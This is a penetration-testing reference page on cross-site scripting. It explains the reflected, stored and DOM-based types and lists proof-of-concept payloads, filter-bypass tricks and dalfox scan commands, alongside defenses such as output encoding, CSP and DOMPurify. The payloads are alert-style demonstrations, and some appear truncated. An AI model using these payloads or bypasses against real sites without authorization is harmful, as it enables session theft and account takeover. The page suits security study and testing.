

# Cross-Site Scripting (XSS)

Reflected, stored, and DOM-based XSS testing.

## Overview Diagram

<div class="sr-diagram" markdown="1">



</div>

## How It Works

Cross-Site Scripting (XSS) lets attackers inject JavaScript or HTML that executes in another user's browser under the victim site's origin. That origin access enables session theft, account takeover, keylogging, and actions on behalf of the victim.

**Reflected XSS**: Payload in the request is immediately echoed in the response (search results, error messages).

**Stored XSS**: Payload persists (comments, profile fields, tickets) and executes for every viewer.

**DOM-based XSS**: Client-side JavaScript reads from `location`, `document.cookie`, or storage and writes to dangerous sinks (`innerHTML`, `eval`, `document.write`) without server reflection.

Context matters for exploitation:

- **HTML body**: `<script>alert(1)</script>`
- **Attribute**: `" onmouseover=alert(1) x="`
- **JavaScript string**: `';alert(1)//`
- **URL context**: `javascript:alert(1)`

Filters, encoders, and Content Security Policy (CSP) interact with payload crafting. Modern apps often mix server templates with rich client frameworks, multiplying sink locations.

## Exploitation

**Mapping**

1. Identify all inputs: forms, query params, WebSocket messages, postMessage handlers.
2. Locate sinks in client and server code (Burp, browser devtools, source review).
3. Determine output encoding and CSP headers.

**Proof-of-concept payloads**

```html
<script>alert(document.domain)</script>
">
<svg onload=alert(1)>
```

**DOM XSS example**

Vulnerable pattern:

```javascript
document.getElementById('out').innerHTML = location.hash.slice(1);
```

Payload: `https://target.com/page#`

**Impact demonstration (authorized testing)**

- Steal cookies where `HttpOnly` is absent (rare for session cookies today).
- Exfiltrate page content or tokens via `fetch` to attacker server.
- Perform CSRF-like actions with the victim's session from injected script.

**Automation**

```bash
dalfox url "https://target.com/search?q=test"
cat urls.txt | dalfox pipe -o xss_results.txt
```

**Bypass techniques**

- Case variation, tag breaking (`<scr<script>ipt>`), event handlers (`onfocus`), encoding (HTML entities, Unicode), and CSP gadget chains when policies are weak.

## Defense & Mitigation

**Output encoding** by context: HTML entity encode for HTML body, JavaScript encode for JS strings, URL encode for URLs. Never insert raw user data into HTML templates.

**CSP**: Deploy a strict policy (`default-src 'self'`) with nonces or hashes for required inline script. Avoid `unsafe-inline` and broad `unsafe-eval`.

**Framework defaults**: Use React/Vue text bindings (`{{ }}`) rather than raw HTML (`v-html`, `dangerouslySetInnerHTML`) unless content is strictly sanitized.

**Cookies**: `HttpOnly`, `Secure`, `SameSite=Lax` or `Strict` on session cookies.

**DOM hygiene**: Avoid `innerHTML` with untrusted data; use `textContent`. Validate `postMessage` origin. Sanitize with a maintained library (DOMPurify) when HTML is required.

**Testing**: Regular XSS scans plus manual review of every reflection point and client-side sink.

## Quick Commands

```bash
# Automated XSS scan
dalfox url "https://target.com/search?q=test"

# Scan URL list from recon
cat urls.txt | dalfox pipe -o xss_results.txt
```

!!! tip "Full Tool Guide"
    See the [Tools Guide](../../TOOLS_GUIDE.md) for install instructions, all flags, and pro tips.

## Methodology

- [ ] Map input vectors and output contexts
- [ ] Test HTML, attribute, and JavaScript contexts
- [ ] Bypass filters and CSP where possible
- [ ] Demonstrate impact without harm

## Tools

| Tool | Usage |
|------|-------|
| `burp` | [Intercept, repeater & scanner](../../TOOLS_GUIDE.md#burp-suite) |
| `xsstrike` | [XSS detection](../../TOOLS_GUIDE.md#xsstrike) |
| `dalfox` | [XSS scanner](../../TOOLS_GUIDE.md#dalfox) |

## Example Payloads

```
<script>alert(1)</script>
">
<svg onload=alert(1)>
javascript:alert(1)
'-alert(1)-'
```

## Resources

- [PortSwigger XSS](https://portswigger.net/web-security/cross-site-scripting)

## Verification Checklist

- [ ] Review scope and rules of engagement
- [ ] Document baseline behavior
- [ ] Test edge cases and parser differentials
- [ ] Capture proof-of-concept safely
- [ ] Write remediation guidance
